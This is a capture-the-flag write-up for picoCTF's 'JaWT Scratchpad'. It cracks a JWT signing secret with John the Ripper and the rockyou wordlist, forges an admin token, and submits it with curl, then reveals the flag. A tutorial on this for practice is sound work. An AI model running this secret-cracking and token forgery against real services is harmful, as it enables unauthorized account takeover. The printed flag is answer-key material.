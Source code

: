 # JaWT Scratchpad

## JWT TLDR

The challenge involves decoding and encoding JWT tokens.

A JWT is created from three parts.

```
Header.Payload.Signature

Header      : Stores information about the algorithm used and the token type (base64 encoded)
Payload     : Store data (base64 encoded)
Signature   : Used to verify that no tempering has been done to the current payload
```

A great site to inspect your JWTs is [ jwt.io ]( https://jwt.io )

## Challenge

Let's login to the site as `admin`.

```
YOU CANNOT LOGIN AS THE ADMIN! HE IS SPECIAL AND YOU ARE NOT. 
```

Since `admin` is not available, let's use `John` instead. We are able to access the next page, which shows a textarea. Great!

From the networks tab, we see that a Cookie has been set. The cookie contains a JWT. 

Let's take a peek at the contents.

```
Header:
{
  "typ": "JWT",
  "alg": "HS256"
}

Payload:
{
  "user": "John"
}
```

The JWT is using a symmetric key (a secret key) to sign their JWT. We can bruteforce the secret by using wordlists.

Let's use `rockyou.txt` as our word list. The wordlist can be obtained from [link](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiwwPHswsHzAhUlwzgGHecVDlQQFnoECAQQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd)

Then by using `JohnTheReaper` in combination with our `rockyou.txt` wordlist. We can brutefoce our key as follows.

```bash
# Copy the JWT into a file called `jwt`

$ john jwt --wordlist=rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 SSE2 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)
1g 0:00:00:03 DONE (2021-10-11 00:12) 0.2881g/s 2131Kp/s 2131Kc/s 2131KC/s iloverob4evax..ilovemymother89
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

From the output above, we see that the cracked secret is `ilovepico`. We can then plug the secret into `jwt.io`, and change the payload. 

```
Payload:
{
    "user": "admin"
}
```

Then send a new request using our JWT token.

```bash
$ curl 'https://jupiter.challenges.picoctf.org/problem/61864/' -H 'Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4ifQ.gtqDl4jVDvNbEe_JYEZTN19Vx6X9NNZtRVbKPBkhO-s'
```

Flag is `picoCTF{jawt_was_just_what_you_thought_1ca14548}`
